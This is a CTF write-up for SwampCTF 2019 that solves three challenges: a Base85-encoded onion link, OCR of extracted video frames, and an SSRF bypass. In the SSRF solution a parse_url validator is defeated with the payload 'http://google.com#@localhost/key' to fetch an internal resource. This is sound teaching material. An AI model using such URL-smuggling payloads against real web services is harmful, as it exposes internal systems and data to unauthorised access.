 ```yaml
---
layout: post
title: SwampCTF 2019 - Write-Ups
---
```


## Brokerboard [50]

### Problem Description

It's the year 1997 and the Internet is just heating up! :fire:

In order to get ahead of the curve, SIT Industries® has introduced it's first Internet product: The Link Saver™. SIT Industries® has been very secretive about this product - even going so far to hire Kernel Sanders® to test the security!

However, The Kernel discovered that The Link Saver had a little bit of an SSRF problem that allowed any user to fetch the code for The Link Saver™ from https://localhost/key and host it themselves :grimacing:. Fortunately, with a lil' parse_url magic, SIT Industries® PHP wizards have patched this finding from Kernel Sanders® and are keeping the code behind this wonderful site secure!

... or have they? :wink:

chal1.swampctf.com:1244

-= Created by andrewjkerr =-

- - - -

### Solution

After connecting to the [website](http://chal1.swampctf.com:1244/) of the challenge, we obtain the following page:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img1.png)

There was an input field in the page allowing us to send a request to the URL we wanted.

After some tries I noticed that the only accepted URL was <www.google.com>. Taking this into account, we tried injecting <http://google.com#@localhost/key>.

```
$ curl http://google.com#@localhost/key --data="link=http://google.com#@localhost/key"

<html>
<head>
    <title>Link Fetcher</title>
</head>
<body>
    <h1>The Link Fetcher</h1>
    <p>Want to remember cool links? This link fetcher will fetch links and store them for you!</p>
    <form action="/" method="POST">
        <input type="text" name="link" />
        <input type="submit" />
    </form>

    <p>Link added!</p><p>Link: http://google.com#@localhost/key</p><p>Title: The flag!</p><p>Description: flag{y0u_cANn0t_TRU5t_php}</p><hr /></body>
```
Flag: **flag{y0u_cANn0t_TRU5t_php}**

## NIT [128]

### Problem Description

The network investigative technique had just triggered and we were starting receive telemetry when, suddenly, a pop-up asked him for administrative access. He freaked out and yanked his cable leaving us with a copious amount of line noise. We've been tracking this guy for a while and really need a win here.

See if you can get anything out of this mess:

A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY

-= Created by v0ldemort =-

- - - -

### Solution

We received a ciphered/encoded string, "A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY". After trying to decipher it using many Cipher algorithms, I found the solution. It was encoded using [Base85](https://en.wikipedia.org/wiki/Ascii85):

I used [CyberChef](https://gchq.github.io/CyberChef) to decode the string obtaining an onion link _depastedihrn3jtw.onion/show.php?md5=7d1ecb0f8f428b70e49de68ead337d7e_:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img2.png)

This link shows the following information in the comments:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img3.jpg)

The comment with "flag = fecabed47e50e3a2b615e86d0e0f1c59" suggested me to visit the following onion link _depastedihrn3jtw.onion/show.php?md5=fecabed47e50e3a2b615e86d0e0f1c59_, which finally shows the flag:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img4.jpg)

Flag: **flag{sp00ky_W3bz_L0L}**

## Ghidra Release

### Problem Description [310]

[Meanwhile at the NSA on a Friday afternoon]

Manager: Hey, we're going to be releasing our internal video training for Ghidra and we need you to watch it all to flag any content that needs to be redacted before release.

Manager: The release is next Monday. Hope you didn't have any weekend plans!

You: Uhhh, sure bu-

Manager: Great! Thanks. Make sure nothing gets out.

You: ... [looks at clock. It reads 3:45PM]

You: [Mutters to self] No way am I watching all of this: https://static.swampctf.com/ghidra_nsa_training.mp4

-= Created by DigitalCold =-

- - - -

### Solution

I downloaded the video from the provided [link](https://static.swampctf.com/ghidra_nsa_training.mp4).

After having it downloaded, I extracted 1 frame for each second of video using the [ffmpeg](https://ffmpeg.org/ffmpeg.html) tool.

```
$ ffmpeg -i ghidra_nsa_training.mp4 -vf "fps=1" out%0d.png
```

Once having all the frames extracted, I used [tesseract](https://ffmpeg.org/ffmpeg.html), an OCR engine to extract text from images to analyze all the frames previously extracted. The simple bash script I prepare for that:

```
for file in $(ls . | grep png); do
	echo "image:${file}";
	tesseract $file - | grep -i flag
done
```

I obtained the first part of the flag in the image out12175.png, as shown in the following image:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img5.jpg)

The next part of the flag was obtained in the image out26715.png:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img6.jpg)

All the parts of the flag were:

* FLAG(1/4): flag{l34
* FLAG(2/4): kfr33_n4
* FLAG(3/4): tion4l_s
* FLAG(4/4): 3cur1ty}

Flag: **flag{l34kfr33_n4tion4l_s3cur1ty}**
